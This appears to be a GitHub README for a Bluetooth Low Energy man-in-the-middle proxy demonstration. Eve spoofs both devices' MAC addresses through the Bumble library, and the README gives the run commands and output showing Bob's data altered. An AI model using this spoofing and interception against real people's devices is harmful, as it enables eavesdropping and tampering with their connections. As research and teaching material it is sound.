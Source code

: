 # Bluetooth Low Energy MITM proxy attack

This repository contains a simple example of a Bluetooth Low Energy MITM proxy attack. The attack is performed by Eve,
who is able to intercept and modify the communication between Alice and Bob. The attack is possible due to Eve spoofing
both Alice's and Bob's MAC addresses on two different HCIs and being first to connect to Bob.

The Python library https://github.com/google/bumble is used to interact with Bluetooth HCI devices. Bumble is installed
using `python -m pip install git+https://github.com/google/bumble.git@v0.0.190`

Experiments were performed on Linux with BlueZ stack. Check available HCIs with `hciconfig -a`. Remove HCI interface
from Linux BlueZ stack, every time you want to run something with bumble: `sudo hciconfig hci0 down`

## Examples using built-in bumble commands

Scan for nearby devices:

```bash
sudo hciconfig hci0 down && sudo ./venv/bin/bumble-scan hci-socket:0
```

Bob listening for BLE connections:

```bash
sudo hciconfig hci1 down && sudo ./venv/bin/bumble-pair src/bob.json hci-socket:1 --request --mode le
```

Alice connecting to Bob:

```bash
sudo hciconfig hci0 down && sudo ./venv/bin/bumble-pair src/alice.json hci-socket:0 --mode le FA:F2:F2:F2:F2:F2
```

## Performing MITM attack using Python scripts

Bob running BLE GATT server and listening for pairings:

```bash
$ sudo hciconfig hci3 down && sudo python3 ./bob.py bob.json hci-socket:3
<<< connecting to HCI...
=== Connected to Connection(handle=0x0040, role=PERIPHERAL, self_address=FA:F2:F2:F2:F2:F2, peer_address=FA:F1:F1:F1:F1:F1)
```

Eve performing MITM attack:

```bash
$ sudo hciconfig hci4 down && sudo hciconfig hci5 down && sudo python3 ./eve.py alice.json hci-socket:4 bob.json hci-socket:5
<<< connecting to HCI used for Bob ...
<<< connecting to HCI used for Alice ...
=== Connecting to Bob FA:F2:F2:F2:F2:F2...
=== Connected to Connection(handle=0x0048, role=CENTRAL, self_address=FA:F1:F1:F1:F1:F1, peer_address=FA:F2:F2:F2:F2:F2)
=== Starting to advertise as Bob FA:F2:F2:F2:F2:F2
=== Connected to Connection(handle=0x0044, role=PERIPHERAL, self_address=FA:F2:F2:F2:F2:F2, peer_address=FA:F1:F1:F1:F1:F1)
```

Alice connecting to Bob:

```bash
$ sudo hciconfig hci0 down && sudo python3 ./alice.py alice.json hci-socket:0 FA:F2:F2:F2:F2:F2
<<< connecting to HCI...
=== Connecting to FA:F2:F2:F2:F2:F2...
=== Connected to Connection(handle=0x0001, role=CENTRAL, self_address=FA:F1:F1:F1:F1:F1, peer_address=FA:F2:F2:F2:F2:F2)
=== Client: connected to Connection(handle=0x0001, role=CENTRAL, self_address=FA:F1:F1:F1:F1:F1, peer_address=FA:F2:F2:F2:F2:F2)
Manufacturer Name:  Bob hates Alice!
```